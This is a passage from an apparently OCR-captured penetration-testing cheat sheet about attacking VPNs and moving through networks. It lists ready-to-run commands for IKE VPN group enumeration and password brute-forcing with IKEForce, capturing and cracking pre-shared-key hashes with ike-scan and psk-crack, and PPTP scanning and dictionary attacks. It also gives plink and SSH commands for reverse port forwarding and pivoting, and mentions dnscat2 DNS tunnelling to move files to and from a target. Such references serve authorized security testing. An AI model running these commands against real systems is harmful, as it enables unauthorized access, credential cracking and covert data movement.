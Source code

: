     -   Use IKEForce to enumerate or dictionary attack VPN servers:

        `pip install pyip`

        `git clone https://github.com/SpiderLabs/ikeforce.git  `

        Perform IKE VPN enumeration with IKEForce:

        `./ikeforce.py TARGET-IP –e –w wordlists/groupnames.dic  `

        Bruteforce IKE VPN using IKEForce:

        `./ikeforce.py TARGET-IP -b -i groupid -u dan -k psk123 -w passwords.txt -s 1  `
        Use ike-scan to capture the PSK hash:

        ```bash
        ike-scan
        ike-scan TARGET-IP
        ike-scan -A TARGET-IP
        ike-scan -A TARGET-IP --id=myid -P TARGET-IP-key
        ike-scan –M –A –n example\_group -P hash-file.txt TARGET-IP
        ```
        Use psk-crack to crack the PSK hash

        ```bash
        psk-crack hash-file.txt
        pskcrack
        psk-crack -b 5 TARGET-IPkey
        psk-crack -b 5 --charset="01233456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz" 192-168-207-134key
        psk-crack -d /path/to/dictionary-file TARGET-IP-key
        ```

-   PPTP Hacking

    -   Identifying PPTP, it listens on TCP: 1723
        NMAP PPTP Fingerprint:

        `nmap –Pn -sV -p 1723 TARGET(S)  `
        PPTP Dictionary Attack

        `thc-pptp-bruter -u hansolo -W -w /usr/share/wordlists/nmap.lst`

-   Port Forwarding/Redirection

-   PuTTY Link tunnel - SSH Tunneling

    -   Forward remote port to local address:

         `plink.exe -P 22 -l root -pw "1337" -R 445:<local host>:445 <remote host>`

-   SSH Pivoting

    -   SSH pivoting from one network to another:

        `ssh -D <local host>:1010 -p 22 user@<remote host>`

-   DNS Tunneling

    -   dnscat2 supports “download” and “upload” commands for getting iles (data and programs) to and from the target machine.
